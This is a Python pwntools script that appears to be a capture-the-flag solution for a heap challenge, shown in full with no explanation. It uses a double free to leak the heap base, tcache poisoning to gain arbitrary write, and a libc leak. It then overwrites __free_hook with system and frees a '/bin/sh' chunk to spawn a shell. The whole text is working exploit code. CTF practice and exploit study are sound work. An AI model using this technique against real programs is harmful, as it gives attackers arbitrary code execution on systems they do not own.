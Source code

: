 ```python
def free(idx):
  p.sendlineafter('>> ', '3')
  p.sendlineafter(':\n', str(idx))

def show(idx):
  p.sendlineafter('>> ', '4')
  p.sendlineafter(':\n', str(idx))

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

p = start()
if args.GDB:
  debug([])

add(0, 0x80, 'A'*0x80) # Used for heap leak
add(1, 0x80, 'A'*0x80) # Used for libc leak
add(2, 0x80, 'A'*0x80) # Prevent consolidation with top
free(0)
free(0)
show(0)

heap = u64(p.recvline().split(':')[1].strip().ljust(8, '\x00')) - 0x260
log.info('Heap base: ' + hex(heap))

# Tcache poisoning attack
edit(0, p64(heap+0x10))
add(3, 0x80, 'A'*0x80)
add(4, 0x80, p64(0x0700000000000000))

# Leak libc
free(1)
show(1)

libc.address = u64(p.recvline().split(':')[1].strip().ljust(8, '\x00')) - 0x3ebca0
log.info('Libc base: ' + hex(libc.address))

edit(4, '\x00'*0x78 + p64(libc.sym['__free_hook']))
add(5, 0x80, p64(libc.sym['system']))

edit(0, '/bin/sh\x00')
free(0)

p.interactive()
```
